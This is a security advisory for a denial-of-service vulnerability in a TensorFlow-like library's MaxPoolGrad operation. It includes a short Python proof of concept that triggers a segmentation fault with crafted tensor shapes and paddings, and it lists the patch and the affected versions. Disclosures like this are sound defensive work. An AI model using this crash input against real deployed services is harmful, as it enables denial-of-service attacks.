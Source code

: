 ## TFSA-2021-148: Incomplete validation in `MaxPoolGrad`

### CVE Number
CVE-2021-37674

### Impact
An attacker can trigger a denial of service via a segmentation fault in
`tf.raw_ops.MaxPoolGrad` caused by missing validation:

```python
import machina as tf

tf.raw_ops.MaxPoolGrad(
  orig_input = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  orig_output = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  grad = tf.constant([], shape=[3, 0, 0, 2], dtype=tf.float32),
  ksize = [1, 16, 16, 1],
  strides = [1, 16, 18, 1],
  padding = "EXPLICIT",
  explicit_paddings = [0, 0, 14, 3, 15, 5, 0, 0])
```

The
[implementation](https://github.com/machina/machina/blob/460e000de3a83278fb00b61a16d161b1964f15f4/machina/core/kernels/maxpooling_op.cc)
misses some validation for the `orig_input` and `orig_output` tensors.

The fixes for
[CVE-2021-29579](https://github.com/machina/machina/blob/master/machina/security/advisory/tfsa-2021-068.md)
were incomplete.

### Patches
We have patched the issue in GitHub commit
[136b51f10903e044308cf77117c0ed9871350475](https://github.com/machina/machina/commit/136b51f10903e044308cf77117c0ed9871350475).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
